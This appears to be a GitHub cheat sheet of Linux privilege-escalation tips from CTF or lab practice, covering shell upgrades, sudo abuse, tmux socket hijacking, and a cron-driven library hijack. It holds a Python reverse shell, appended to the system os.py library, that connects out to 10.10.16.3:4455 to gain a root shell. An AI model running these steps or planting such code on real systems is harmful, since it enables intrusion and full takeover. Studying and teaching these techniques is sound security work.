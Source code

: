 # Linux Priv escalation Tips

# ${{\color{purple}Upgrade shell}}\ $

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

# ${{\color{purple}Manual testing}}\ $
# ${{\color{green}sudo -l}}\ $

`sudo -l`

![1](https://user-images.githubusercontent.com/123066149/225001578-46a486b7-bf12-44ef-b52d-1408ef34fb1e.PNG)

`sudo -u scriptmanager /bin/bash`

![image](https://user-images.githubusercontent.com/123066149/225002081-e468220b-fddf-493b-a817-7d64b90accc1.png)

# ${{\color{green}tmux}}\ $

``cat .bash_history``

![image](https://user-images.githubusercontent.com/123066149/226274014-d15271f8-178e-4891-9a3a-7e7fba239035.png)

``ps aux | grep -i tmux``

![image](https://user-images.githubusercontent.com/123066149/226274186-eb4fb8f5-1e4b-4752-ac3d-3fe6e9889d3d.png)

``ls -la /.devs/dev_ses``

![image](https://user-images.githubusercontent.com/123066149/226274516-f2a84f6f-121b-44b6-85c2-84cbb944435a.png)

``export TERM=xterm``
``tmux -S /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226274864-b5db7a5e-f19f-4854-929f-aa2f491ae328.png)
![image](https://user-images.githubusercontent.com/123066149/226275042-06bc4a86-474e-486f-a4e4-00ac3e2e4950.png)

# ${{\color{green}crontab + lib os}}\ $

``ls /opt``

![image](https://user-images.githubusercontent.com/123066149/227714929-a9d3bf80-7aed-465e-b1cc-0bdc72116b0a.png)

![image](https://user-images.githubusercontent.com/123066149/227715049-c670f729-a237-4a63-b208-826d06931d66.png)

``cd /usr/lib``

![image](https://user-images.githubusercontent.com/123066149/227715097-471f6bf7-c430-4469-9b17-11bd4a4baaa3.png)

### I added a reverse shell to end of the library ``/usr/lib/python2.7/os.py``

``import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.3",4455))
dup2(s.fileno(),0) 
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")``

![image](https://user-images.githubusercontent.com/123066149/227715198-26be459a-977a-4b3d-bd81-e6e10ee4c6c8.png)

### As soon as the crontab runs I am root :

![image](https://user-images.githubusercontent.com/123066149/227715364-37deff06-5fa2-4b2b-94ef-baf5fddc6deb.png)

# ${{\color{purple}Script}}\ $
# ${{\color{green}LinPeas}}\ $

https://github.com/carlospolop/PEASS-ng/releases/tag/20230319

# ${{\color{green}LinEnum}}\ $

https://github.com/rebootuser/LinEnum

# ${{\color{green}Linux-Exploit-Suggester}}\ $

https://github.com/The-Z-Labs/linux-exploit-suggester

# ${{\color{purple}}}\ $

